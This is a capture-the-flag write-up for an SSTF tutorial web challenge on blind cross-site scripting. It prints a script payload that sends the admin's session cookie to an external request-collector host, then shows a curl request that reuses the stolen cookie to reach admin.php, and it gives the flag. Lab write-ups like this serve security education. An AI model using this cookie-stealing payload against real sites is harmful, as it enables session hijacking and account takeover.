



# XSS101

## Description
```
Now it's time to learn another web vulnerability and attack.

Find the server at: http://xss101.sstf.site.

This is a tutorial challenge.
If you are not sure how to solve this,
please refer to the tutorial guide(Eng | Kor).
```

## Solution

We can see the login form and the help link when we submit any credentials.



We are directed to `help.php` when we click `Need help?`.



The `HINT` gives the source of `help.php`, but it seems it's not about SQLi as it is using prepared statements.

```php
insert_data_with_prepared_statements($db, $_POST['email'], $_POST['desc']);
```

We just submitted any inquery and got the message like below. So, it seems XSS as the title suggests.



We just submit the `script` tags like below into `Description`.

```html
<script>location.href="https://en9e8v7j6r48.x.pipedream.net/?cookie="+document.cookie</script>
```

We were able to get admin's `PHPSESSID` cookie. So, where to use this cookie? With the little bit of guessing, I was able to get the flag from `admin.php` using the cookie.

```sh
$ curl -s --cookie "PHPSESSID=32c1ba061ee4c31773e442d3035c9803" http://xss101.sstf.site/admin.php | grep SCTF
                                <table class="form-rounded"><tr><td id="txtnode">SCTF{bl1nd_CR055_s1t3_scr1ptin9_att4ck}</td></tr></table>
```

## Flag
`SCTF{bl1nd_CR055_s1t3_scr1ptin9_att4ck}`